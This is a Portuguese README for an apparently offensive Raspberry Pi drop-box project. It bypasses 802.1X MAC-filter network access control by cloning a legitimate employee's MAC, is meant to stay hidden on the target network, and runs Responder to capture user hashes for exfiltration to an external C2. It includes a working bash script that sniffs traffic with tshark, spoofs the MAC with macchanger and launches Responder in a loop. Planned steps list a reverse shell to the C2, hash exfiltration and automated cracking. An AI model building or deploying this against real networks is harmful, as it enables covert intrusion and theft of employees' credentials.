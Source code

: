 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass de NAC 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo, utilizando ferramentas como RaspberryPI e um Switch de rede, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque de forma automatizada. Ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador no switch para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações. Em sequência é recomendável que o device seja escondido equanto estiver conectado ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

## V1 - RaspberryPi3
* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)

## V2 - Pwnagotchi
https://pwnagotchi.ai/
* UPS Lite V1.2 Poder HAT Board (Bateria)
* RaspberryPI ZeroW Dev Board(Solded)
* RaspberryPI ZeroW Ethernet HUB, HUB USB... (Inputs)
* E-Ink Display HAT (Screen)
* Adaptador Wi-FI - USB (SSH)

## Geral
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos/Retrateis) 1metro
* Adaptador RJ45-USB
* 
# Etapas:

## Setup Raspberry
- [ ] kali ISO: https://www.kali.org/docs/arm/raspberry-pi-3/
- [ ] kali LCD Screen: https://github.com/lcdwiki/LCD-show-kali
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt #HARCODED
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```

# Next Steps
- [ ] Enviar uma shell para o C2, a fim de ter pesistência e controle remoto do dispositivo
- [ ] Exfiltrar hashes para o C2
- [ ] Quebrar os hashes de forma automatizada
- [ ] Notificar o atacante ao realizar uma quebra de hashe
- [ ] Enumerar permissões do hashe obtido*
